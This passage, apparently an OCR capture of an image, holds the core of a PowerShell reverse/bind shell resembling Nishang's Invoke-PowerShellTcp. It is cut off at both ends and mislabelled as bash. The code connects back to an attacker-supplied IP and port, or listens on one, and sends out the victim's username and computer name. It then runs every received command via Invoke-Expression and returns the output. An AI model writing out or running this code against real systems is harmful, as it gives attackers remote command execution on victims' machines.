 ```bash
        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
```